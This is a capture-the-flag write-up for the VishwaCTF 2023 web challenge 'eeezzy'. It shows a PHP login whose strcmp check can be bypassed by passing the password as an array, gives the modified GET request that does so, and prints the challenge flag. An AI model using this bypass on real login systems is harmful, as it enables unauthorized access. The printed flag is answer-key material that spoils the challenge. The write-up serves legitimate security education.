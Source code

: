 # eeezzy
- Challenge Name : eeezzy
- Difficulty :  Easy

## Challenge Description
I forgot my login details again!

##### Assets/files : [AV.gif](https://klsgit-wgcs.github.io/VishwaCTF-2023/writeups/Steganography/assets/AV.gif)

## Methodology
A web instance was provided to us where we needed to get the flag. 

![image](https://user-images.githubusercontent.com/121932742/231846273-3ac014d2-50b9-4996-8bce-6185bd400f25.png)

>Lets see what's given for us, like we do in our math and physics numericals.

>We have two things one is login form and view source code option in the right bottom.

```
<?php  
  
    session_start();    $_SESSION['status']=null;    $flag="";  
    try {  
        if (isset($_GET['username']) && isset($_GET['password'])) {  
            if (strcmp($_GET['username'], $flag)==0 && strcmp($_GET['password'], $flag)==0)                $_SESSION['status']=$flag;  
            else                $_SESSION['status']="Invalid username or password";  
        }  
    } catch (Throwable $th) {        $_SESSION['status']=$flag;  
    }  
  
?>
```

>So we have something fishy over here...

>The code has stringcompare vulnerablity known as strcmp()

>Find more about it here https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016

>Now enter some random strings in User and Pwd form or can even submit [SPACE] to avoid confusions intercepting it in URL.

>I intercepted the request in the login form and updated this
**GET /?username=admin&password=admin&submit=Login HTTP/2__**
To
**GET /?username=&password[]=&submit=Login HTTP/2**

>Here is the flag in the form of error

<img width="1436" alt="image" src="https://user-images.githubusercontent.com/121932742/231860272-a9c5e469-4bfa-4c24-a8d8-34b529592302.png">

**VishwaCTF{5t0p_c0mp4r1ng}**


